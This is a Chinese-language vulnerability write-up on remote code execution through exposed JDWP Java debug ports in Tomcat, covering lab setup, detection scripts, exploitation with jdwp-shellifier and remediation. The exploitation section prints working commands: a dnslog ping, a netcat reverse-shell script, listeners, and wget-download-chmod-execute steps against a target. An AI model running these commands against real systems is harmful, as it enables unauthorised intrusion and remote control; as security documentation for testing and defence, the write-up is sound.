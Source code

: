 # 

# JDWP调试接口 RCE 漏洞

## 漏洞描述

JDWP（Java Debug Wire Protocol，Java调试线协议）是一个为Java调试而设计的通讯交互协议，它定义了调试器（Debugger）和被调试JVM（Debuggee）进程之间的交互数据的传递格式，它详细完整地定义了请求命令、回应数据和错误代码，保证了调试端和被调试端之间通信通畅。

JDWP是JVM或者类JVM的虚拟机都支持的一种协议，通过该协议，Debugger端和被调试JVM之间进行通信，可以获取被调试JVM的包括类、对象、线程等信息。

参考阅读：

- https://forum.butian.net/share/1232

## 环境搭建

### Windows

下载Tomcat到本地，在`bin\startup.bat`文件中添加如下代码开启debug模式：

```
SET CATALINA_OPTS=-server -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=8000
```

点击运行 `startup.bat` ，以debug模式启动Tomcat。

`Listening for transport dt_socket at address: 8000`，表示JDWP服务已经监听在8000端口，等待调试器连接。

### Linux

执行如下命令安装Tomcat：

```
# 执行wget命令下载Tomcat安装包
wget http://mirror.bit.edu.cn/apache/tomcat/tomcat-8/v8.5.43/bin/apache-tomcat-8.5.43.tar.gz

# 解压安装包
tar zxvf apache-tomcat-8.5.43.tar.gz

# 将程序安装包复制到指定运行目录下
sudo mv apache-tomcat-8.5.43 /usr/local/tomcat8
```

启动方式一：

进入Tomcat安装目录下的bin目录下找到 `catalina.sh` 文件，在文件开头部分添加如下一行：

```shell
CATALINA_OPTS="-Xdebug -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=*:8000"
```

修改完成后，执行脚本`./startup.sh`就会以debug模式启动Tomcat。

启动方式二：

进入Tomcat的bin目录，输入 `./catalina.sh jpda run` 或者 `./catalina.sh jpda start` 命令以调试模式启动tomcat。
启动时就会出现如下信息提示：
`Listening for transport dt_socket at address: 8000`。

注意脚本中默认配置JDWP是监听在本地的8000端口，修改`JDPA_ADDRESS`的值对外开放此端口，在JDK9及以上的版本需要修改为`JDPA_ADDRESS=*:8000` ，在JDK9以下版本修改为`JDPA_ADDRESS=8000` 即可

## 漏洞检测

有三种常用方式来进行JDWP服务探测，原理都是一样的，即向目标端口连接后发送JDWP-Handshake，如果目标服务直接返回一样的内容则说明是JDWP服务。

### Nmap

扫描会识别到JDWP服务，且有对应的JDK版本信息。

```shell
nmap -sT -sV 192.168.192.1 -p 8000
```

### Telnet

使用Telnet命令探测，需要马上输入JDWP-Handshake，然后服务端返回一样的内容，证明是JDWP服务。

```shell
telnet 192.168.182.130 8000
```

注意：需要马上输入JDWP-Handshake，并按下回车，不然马上就会断开。在Linux系统下使用telnet测试可以，在Windows系统下使用telnet测试不太行。

### Python

使用如下脚本扫描，直接连接目标服务器，并向目标发送JDWP-Handshake，如果能接收到相同内容则说明目标是开启了JDWP服务。

```
import socket

host = "192.168.182.130"
port = 8000
try:
    client = socket.socket()
    client.connect((host, port))
    client.send(b"JDWP-Handshake")
    if client.recv(1024) == b"JDWP-Handshake":
        print("[*] {}:{} Listening JDWP Service! ".format(host, port))
except Exception as e:
    print("[-] Connection failed! ")
finally:
    client.close()
```

## 漏洞POC

### POC1

poc1：https://github.com/IOActive/jdwp-shellifier
jdwp-shellifier是使用Python2编写的，该工具通过编写了一个JDI（JDWP客户端），以下断点的方式来获取线程上下文从而调用方法执行命令。

该漏洞无回显，可利用dnslog进行探测：

```
python2 jdwp-shellifier.py -t 192.168.3.118 -p 8787 --break-on "java.lang.String.indexof" --cmd "ping xxx.dnslog.cn"
```

#### 反弹shell

准备反弹shell文件，保存为shell.txt：

```
nc 192.168.178.129 3333 | /bin/bash | nc 192.168.178.129 4444%
```

启动http服务：

```
python3 -m http.server 8000
```

开启监听，需要开启2个监听，前面一个输入执行命令，后面一个输出命令执行结果：

```
nc -lvvp 3333
nc -lvvp 4444
```

利用poc1执行命令，下载shell、文件可执行权限、执行shell：

```
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "wget http://192.168.178.129:8000/shell.txt -O /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "chmod a+x /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "/tmp/shell.sh"
```

两个监听都收到shell，一个输入命令，一个输出结果。

![image-20230630173638801](images/image-20230630173638801.png)

### POC2

poc2：https://github.com/Lz1y/jdwp-shellifier
该脚本是在上面一个漏洞利用脚本的基础上，修改利用方式为通过对Sleeping的线程发送单步执行事件，达成断点，从而可以直接获取上下文、执行命令，而不用等待断点被击中。

## 修复建议

- 关闭JDWP端口，或者JDWP端口不对公网开放
- 关闭Java的debug模式
